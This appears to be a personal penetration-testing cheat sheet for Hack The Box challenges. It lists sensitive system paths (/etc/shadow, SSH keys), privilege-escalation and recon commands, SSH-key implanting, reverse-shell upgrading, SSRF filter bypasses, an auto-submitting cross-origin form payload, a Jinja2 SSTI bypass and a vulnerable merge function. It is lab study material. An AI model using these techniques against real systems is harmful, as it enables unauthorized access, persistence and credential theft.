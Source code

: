 # Table of Content
<!-- TOC -->

- [Table of Content](#table-of-content)
- [Useful stuff](#useful-stuff)
    - [Paths](#paths)
    - [Tools](#tools)
    - [Commands](#commands)
    - [Port Forwarding](#port-forwarding)
    - [Websites](#websites)
    - [Implanting SSH keys](#implanting-ssh-keys)
    - [Transferring files with SCP](#transferring-files-with-scp)
    - [Reverse Shell Upgrade](#reverse-shell-upgrade)
    - [Privilege Escalation](#privilege-escalation)
- [Notes from older exploits](#notes-from-older-exploits)
    - [git Directory](#git-directory)
    - [CSS Injection](#css-injection)
    - [SSTI](#ssti)
        - [Cross Origin problems](#cross-origin-problems)
        - [Jinja2](#jinja2)
    - [Class Pollution](#class-pollution)

<!-- /TOC -->
# Useful stuff
## Paths
/etc/nginx/nginx.conf\
/etc/nginx/sites-enabled/(deafult)\
/etc/nginx/sites-available\
/etc/hosts\
$HOME/.shh/id_rsa\
/proc/self/environ\
/proc/self/cmdline\
/etc/shadow\
/etc/apache2/apache2.conf

Nella root della webApp:\
index.js/html\
main.js/html

## Tools
gitleaks\
pspy\
ghidra\
gobuster\
hashcat\
johntheripper\
nmap\

## Commands
netstat -antp\
sudo -l\
whoami\
linpeas - WINpeas\
find / -perm -4000 2>/dev/null

Bypass ip filter or perform SSRF to localhost:
1. http://localtest.me
2. Append to url: .nip.io

ngrok tcp 80\
`dig` to resolve your tunnel hostname and use ip instead

## Port Forwarding
when you find a service on a machine running only locally you can forward it to your local port using: Esempio: [exploit.](../hack_the_box/htb_machines/sightless/writeup.md)
- when you already have ssh (user):\
`ssh -L 9090:localhost:8080 remote_user@host.htb`\
then visiting localhost:9090 you can access the service on host.htb:8080 (might need to add domain to /etc/hosts)
- when you dont have but a simple remote shell:\
`search chisel or others`


## Websites
bypass local security restriction: https://gtfobins.github.io/ \
payload: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md \
https://book.hacktricks.xyz/ \
intercept and modify requests, public endpoint:
- https://pipedream.com/requestbin 
- https://webhook.site/#!/view/36d22d40-393f-4680-a239-cf0d7488e238 
- https://testt.free.beeceptor.com

## Implanting SSH keys
`echo "Your SSH public key here (id_rsa.pub)" > /home/<user>/.ssh/authorized_keys`

## Transferring files with SCP
from destination to source:
`scp path_file_to_send dest_user@dest_ip:/path_to_receive`

from source to destination:
`scp dest_user@dest_ip:/path_to_receive files_received `

## Reverse Shell Upgrade
when you get a shell through nc, it's usually not possibile to use arrow keys so it's needed a "shell upgrade" as following:

    python3 -c 'import pty; pty.spawn("/bin/bash")' 
    ctrl + z 
    stty raw -echo; fg 
    Enter twice 
 
additionally: \
`export TERM=xterm`

additionally: (to fix terminal when writing very long payloads)\
`stty -a`  on own machine to read rows and columns values\
`stty rows ** columns **`  using same values seen on own machine

## Privilege Escalation

 - if you can modify perms of a file with sudo, you can create a symlink to passwd e grant yoursef perms to W and add a user with perms to root like "test::0:0:test:/root:/bin/bash".  Esempio: [exploit.](../hack_the_box/htb_challenges/web/NextPath/writeup.md)

# Notes from older exploits
bypass http blacklist filter with `dict://` `gopher://`
test antivirus or signature check using EICAR Files
  
## .git Directory
controllarne lo stato con git status ed eventualmente ripristinarlo con git restore. Spesso i segreti sono nascosti nelle commit di nuovi file o file modificati.
## CSS Injection
when page header are set like font: None *
## SSTI
### Cross Origin problems
when trying to exploit it causing Cross Origin requests, the PREFLIGHT requests is automatically sent, that if not correctly handled might break the SSTI (even if AllowOrigin: *). To avoid sending the preflight use host a server that replies with the following:

```html
<html>
  <body>
    <form
      action="http://target/endpoint"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"key_example": "value_example"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Esempio: [exploit.](../hack_the_box/htb_challenges/web/TornadoService/writeup.md)

### Jinja2
bypass blacklisted character: https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/strong \
using filter to get arguments from url or headers or form (if it is a post) which contains desidered blacklisted char\
example: https://github.com/Gianlush/Workspace_Ethical_Hacking/tree/main/hack_the_box/htb_challenges/web/DoxPit - `request|attr('args')|list|last`

Esempio: [exploit.](../hack_the_box/htb_challenges/web/DoxPit/writeup.md)

## Class Pollution 

```python
# Vulenrable function
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

Esempio: [exploit.](../hack_the_box/htb_challenges/web/TornadoService/writeup.md)
